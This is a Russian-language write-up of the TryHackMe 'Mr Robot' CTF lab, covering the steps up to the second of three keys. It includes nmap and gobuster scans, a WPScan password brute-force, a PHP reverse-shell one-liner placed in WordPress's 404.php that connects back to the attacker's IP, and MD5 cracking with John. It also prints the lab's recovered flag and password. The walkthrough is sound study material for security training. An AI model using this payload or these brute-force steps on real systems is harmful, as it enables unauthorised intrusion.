










# TryHackMe: Mr Robot CTF

**Платформа:** TryHackMe  
**Сложность:** Easy  
**Дата:** 06.11.2026

## 1. Описание комнаты

Это лабораторная машина, предназначенная для начинающих/промежуточных пользователей. На машине расположены 3 скрытых ключа, можете ли вы их найти?

# 2. Разведка

Первое с чего я начал - разведка. С помощью `nmap` я провел разведку и нашел три открытых порта: 

`nmap 10.113.146.119`  

После я получил такой вывод:

После этого я запустил `gobuster`: 

`gobuster dir -u http://10.113.146.119 -w /usr/share/wordlists/dirb/common.txt -k`

Я получил такой вывод (в нем показаны не все домены, так как просто не поместились)

Далее я перешел в браузер по URL: `http://10.113.146.119/robots.txt`, так как ранее в `gobuster` я увидел у этого домена статус **200**.
Вот что я там увидел:

Далее я смог перейти в домен `key-1-of-3.txt` и получить первый ключ из трех:

Также, если перейти в домен `fsocity.dic` нас встретит большой  список рандомных слов, это нам явно что то дает, так как эти два домена были скрыты от сканеров.

Далее я скачал файл `fsocity.dic` отсортировал и переписал в другой файл таким образом:

`sort fsocity.dic | uniq > fsocity_clean.dic`

Содержание файла уменьшилось примерно с 850.000 до 11.000, так как в нем было много повторов. Далее я запустил `WPScan`:

`wpscan --url http://10.113.182.63 --usernames elliot --passwords fsocity_clean.dic`

Обратите внимание, что я указал файл `fsocity_clean.dic`. После я получил такой вывод:

У меня получилось зайти на профиль `elliot|ER28-0652`.  
Далее я в **WordPress** добавил строку `<?php echo 'php-test'; ?>` в файл 404.php.  
Проверил через `curl -s http://10.113.182.63/wp-content/themes/twentytwenty/404.php` - строка `php-test` действительно показывается.  
Далее в новом терминале я включил слушатель: `nc -lvnp 4444`.  
После этого в фалйе **404.php** я изменил свою строку на такую: `<?php exec("bin/bash -c 'bash -i >& /dev/tcp/10.113.108.132/444 0>&1'"); ?>`, после попробовал зайти на сайт с URL `http://10.113.182.63/wp-content/themes/twentytwenty/404.php`, и обратился обратно к терминалу с слушателем.  
Там внутри машины под пользователем **daemon**, получил полноценный **reversw shell**.  
Далее я проверил что находится в директории /home/robot/: `ls -la /home/robot/`  

После чего я прочитал файл `password.raw-md5` - это **MD5-хеш**  

`cat /home/robot/password.raw-md5`  

Далее, имея **MD5-хеш**, можно его прогнать через `JohnTheRipper` таким образом:  

`echo "c3fcd3d76192e4007dfb496cca67e13b" > hash.txt` - записываем хеш в файл .txt  
`john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` - обращаемся к `JohnTheRipper`

На выходе я получил такой пароль: **abcdefghijklmnopqrstuvwxyz**

После этого в терминале внутри машины я ввел:  
`su - robot`  
Далее я ввел пароль:  
`Password: abcdefghijklmnopqrstuvwxyz`  
И наконец смог прочитать файл со вторым флагом:  
` cat /home/robot/key-2-of-3.txt`: **822c73956184f694993bede3eb39f959**  

